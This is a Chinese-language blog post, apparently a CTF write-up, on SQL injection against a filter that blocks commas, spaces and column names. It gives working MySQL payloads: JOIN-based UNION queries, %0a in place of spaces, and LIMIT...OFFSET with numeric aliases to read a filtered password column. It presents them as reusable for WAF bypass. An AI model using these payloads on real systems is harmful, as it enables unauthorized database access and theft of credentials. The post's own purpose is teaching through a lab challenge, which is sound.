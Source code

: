 ```yaml
---
title: SQLi —— 逗号，空格，字段名过滤突破
categories:
  - SQL注入
tags:
  - SQL注入绕过
toc: true 文章目录
author: BlBana
date: 2017-05-20 14:31:05
description:
comments:
original:
permalink:
---
```

### SQLi-——-逗号，空格，字段名过滤突破
在做CTF的时候，遇到了一道SQL注入的题目，发现空格，逗号都被过滤掉了，空格被过滤有很多种方法可以绕过，但是逗号被过滤掉，最后在参考了V师傅的blog以后把题做了出来

<!-- more -->

#### 0x01 测试
拿到题首先，先测试了一下：
当语句被filter过滤拦截时显示，`Error input`；
当语句成功进入数据库，但是构造语句出现语法错误时，返回`error`；
当语句成功注入时，回显对应的数据。

经过测试发现， 有一些字符无法正常的使用
`逗号，空格，单引号，斜杠等等`
只要检测到这些字符，就会拦截我们注入的语句，因此我们需要Bypass Waf

#### 0x02 Bypass the waf
1. 首先我们空格被过滤，这个绕过方法有很多
- 使用注释绕过，`/**/`，但是因为'/'被过滤，导致此方法无法使用
- 使用括号绕过，括号可以用来包围子查询，任何计算结果的语句都可以使用`（）`包围，并且两端可以没有多余的空格
- 使用符号替代空格 `%20 %09 %0d %0b %0c %0d %a0 %0a`，这里我选择了`%0a`进行绕过

2. '，'也被过滤掉了，我们需要使用union的查询需要逗号
通过查阅资料，找到了一种可以绕过的方法

可以使用join来进行绕过，可以绕过逗号，使用联合查询
```sql
mysql> SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d;
+---+---+---+---+
| 1 | 2 | 3 | 4 |
+---+---+---+---+
| 1 | 2 | 3 | 4 |
+---+---+---+---+
```
在SELECT处也可以构造一些查询语句
```sql
mysql> SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT version())d;
+---+---+---+-----------+
| 1 | 2 | 3 | version() |
+---+---+---+-----------+
| 1 | 2 | 3 | 5.5.47    |
+---+---+---+-----------+
```
当我们这样注入的时候，可能查询结果只能显示一条结果的某一列
```sql
mysql> SELECT A.user_id from (SELECT user_id,last_name,first_name,user from users union select 1,2,3,4)A;
+---------+
| user_id |
+---------+
|       1 |
|       2 |
|       3 |
|       4 |
|       5 |
|       1 |
+---------+
```

```sql
mysql> SELECT A.user_id from (SELECT user_id,last_name,first_name,user from users union select 1,2,3,4)A;
+---------+
| user_id |
+---------+
|       1 |
|       2 |
|       3 |
|       4 |
|       5 |
|       1 |
+---------+
```
我们可以将查询结果集取一个别名，再通过字段名来进行来进行访问具体的某一个字段的值，这里将数字的查询放在前面，将具体数据的查询语句使用联合查询进行连接比较好，这样做的好处是，我们可以不用知道**具体的字段名**，而**使用数字来进行访问**，我们只要保证字段的数目相同就可以了，后面的联合查询语句的字段名选择使用`*`来查询所有的字段，**即便我们需要查询字段名被过滤，也可以绕过过滤注入出数据**

#### 0x03 exp编写
这道题主要一道UNION的联合注入题目，主要难点是字段名被过滤，注入语句中不能出现字段名，并且空格和逗号被过滤，共4个字段，语句构造如下：
```sql
-1 UNION ALL SELECT * FROM 1,2,3,4
```
逗号被过滤，Bypass：
```sql
-1 UNION ALL SELECT * FROM ((SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d)
```
查询出字段名为password，是第四个字段，但是password被过滤，Bypass：
*逗号被过滤，使用limit的时可以使用另外的一种写法*`LIMIT M OFFSET N`,来取某一条结果，再使用F.4，来取对应字段的值，可以绕过字段名的过滤，成功注入数据
```sql
-1 UNION ALL SELECT * FROM ((SELECT 1)a JOIN (SELECT F.4 from (SELECT * FROM (SELECT 1)u JOIN (SELECT 2)i JOIN (SELECT 3)o JOIN (SELECT 4)r UNION SELECT * FROM NEWS LIMIT 1 OFFSET 4)F)b JOIN (SELECT 3)c JOIN (SELECT 4)d)
```
最后，由于空格也被过滤，只需要将上面的exp中的空格全部替换成`%0a`就可以了

#### 0x04
使用这种方法，可以绕过逗号，空格，字段名都被过滤的情况，上面的payload也适用于很多种绕过waf的情景，可以灵活的运用

#### 参考链接
[About Join --- SQLi Veneno's Blog](http://www.venenof.com/index.php/archives/240/)
[ 基于union查询的盲注](http://wonderkun.cc/index.html/?cat=1&paged=3)



---
